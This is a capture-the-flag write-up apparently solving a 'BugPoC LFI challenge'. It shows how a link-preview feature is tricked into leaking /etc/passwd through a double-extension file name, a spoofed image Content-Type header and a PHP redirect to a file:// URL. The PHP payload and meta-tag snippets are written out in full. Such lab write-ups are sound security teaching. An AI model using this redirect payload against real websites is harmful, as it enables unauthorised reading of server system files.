



# BUGPOC LFI Challenge

### We are given a website [Social Media Sharer](http://social.buggywebsite.com/) and We need to leak **etc/passwd**
  
  
  
We can write and share posts via social accounts mentioned below
  
After looking into source code there is a javascript file with some functions and some checks.
 
The main function here is **processUrl()**.
 
```js
function processUrl(e) {
    requestTime = Date.now(),
    url = "https://api.buggywebsite.com/website-preview";
    var t = new XMLHttpRequest;
    t.onreadystatechange = function() {
        4 == t.readyState && 200 == t.status ? (response = JSON.parse(t.responseText),
        populateWebsitePreview(response)) : 4 == t.readyState && 200 != t.status && (console.log(t.responseText),
        document.getElementById("website-preview").style.display = "none")
    }
    ,
    t.open("POST", url, !0),
    t.setRequestHeader("Content-Type", "application/json; charset=UTF-8"),
    t.setRequestHeader("Accept", "application/json"),
    data = {
        url: e,
        requestTime: requestTime
    },
    t.send(JSON.stringify(data))
}
```
 
It takes url and makes a post.And then it calls **populateWebsitePreview()** function to fetch the og:image and its tags from the url and loads it in **imgData** .

 

I crafted a html with meta tag og:image in my php server 

```html
<html>
<head>

	<meta property="og:image" content="/test.png">

</head>
</html>

```
Placed the ngrok link ,and observe the response there is base64 encoded data of our image file (test.png) .And we also see the incomming requests from the server to our local server.
Well we understand the functionality.It makes request to specified url/value which we place in the content of og:image 

If we place other than jpg,png,svg files in content we get an error `Image Preview Error: Invalid Image URL`

Lets see what checking this ..

### Checks and Bypass :

**Check 1**
- When we place content with image extensions , we getting a **HEAD** requestthen **GET** request which fetches the image ,If we provide any extensions other than jpg,png,svg we didn't get any HEAD incomming request .
- So the server checking the extension we placing, We can bypass this by providing **double extensions** like **test.svg.php**

**index.php**
```html
<html>
<head>

		<meta property="og:image" content="myserver/test.svg.php">

</head>
</html>


```

**Check 2**
- I created a php file with named `test.svg.php` and placed it in my local server and placed the link in content of og:image andthe server returns 
`Image Failed HEAD Test`
- By this error we know there is a check for HEAD method , if we see what is [HEAD request method](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD)
  it only return Headers not reponse body .
- By observing the Incomming HEAD requests for Valid file , we see that it has a **Content-type** for successful request .
- So added **Content-Type: image/svg+xml** in the `test.svg.php`.We got no error there , so it happened , we bypassed HEAD check

```php
<?php

	header("Content-Type: image/svg+xml");

?>
	
```

**LFI**

If we observe clearly we have a **GET** request after the HEAD request to fetch the image content ,so if we redirect the GET request of the image` to file:///etc/passwd` it fetches the etc/passwd content.

So added a **Location** header to `file://etc/passwd` in the above php file.


**test.svg.php**

```php
<?php

	header("Content-Type: image/svg+xml");
	header('Location: file:///etc/passwd');

?>
	
```


place the ngrok link and see the response.

Guess what, :boom: It worked and  we leaked the etc/passwd




Thanks for Reading :innocent:

